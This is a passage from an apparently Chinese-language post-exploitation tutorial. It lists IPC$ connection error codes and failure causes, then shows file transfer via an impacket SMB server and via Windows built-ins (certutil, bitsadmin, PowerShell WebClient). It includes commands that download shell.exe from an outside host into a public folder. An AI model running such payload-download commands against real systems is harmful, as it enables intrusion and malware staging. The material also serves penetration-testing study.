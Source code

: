 ```plain
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限 
51：网络问题，Windows 无法找到网络路径
53：找不到网络路径，可能是 IP 地址错误、目标未开机、目标 Lanmanserver 服务未启动、有 防火墙等问题
67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除
1326：账号密码错误
1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

#### [建立 IPC 失败的原因](#toc_ipc_1)

（1）目标系统不是 NT 或以上的操作系统

（2）对方没有打开 IPC$共享

（3）对方未开启 139、445 端口，或者被防火墙屏蔽

（4）输出命令、账号密码有错误

### [通过搭建 SMB 服务器](#toc_smb)

SMB（Server Message Block，服务器消息块），又称 CIFS（Common Internet File System，网络文件共享系统），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。SMB 消息一般使用 NetBIOS 协议或 TCP 发送，分别使用端口 139 或 445，目前倾向于使用 445 端口。

在 linux 上，可以通过 [https://github.com/fortra/impacket/blob/master/impacket/smbserver.py](https://github.com/fortra/impacket/blob/master/impacket/smbserver.py) 来搭建 smb 服务器。

```plain
mkdir /root/smbshare python smbserver.py mysmb /root/smbshare -smb2support
```

### [通过 Windows 自带工具](#toc_windows)

#### [**Certutil**](#toc_certutil)

Certutil 是 Windows 自带的命令行工具，用于管理 Windows 证书并作为证书服务器的一部分安装。Certutil 提供了从网络下载文件的功能。

```plain
certutil -urlcache -split -f http://192.168.1.1:8000/shell.exe c:\users\public\shell.exe 
//从 192.168.1.1:8000 下载 shell.exe 到本地 c:\users\public\目录下
```

#### [**BITSAdmin**](#toc_bitsadmin)

BITSAdmin 用于创建、下载和上传作业，监视其进度。Windows7 及以后的系统自带 BitsAdmin 工具。

```plain
bitsadmin /transfer test http://192.168.1.1:8000/1.txt c:\users\mytools\a.txt 
// 创建一个名为 test 的 bitsadmin 任务，从 192.168.1.1:8000 下载 1.txt，保存为 c:\users\mytools\a.txt
```

#### [**powershell**](#toc_powershell)

通过创建 WebClient 对象来实现文件下载

```plain
(New-Object Net.WebClient).DownloadFile("http://192.168.1.1:8000/shell.exe", "c:\users\public\shell.exe") 
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.1:8000/shell.exe','c:\users\public\shell.exe')"
```
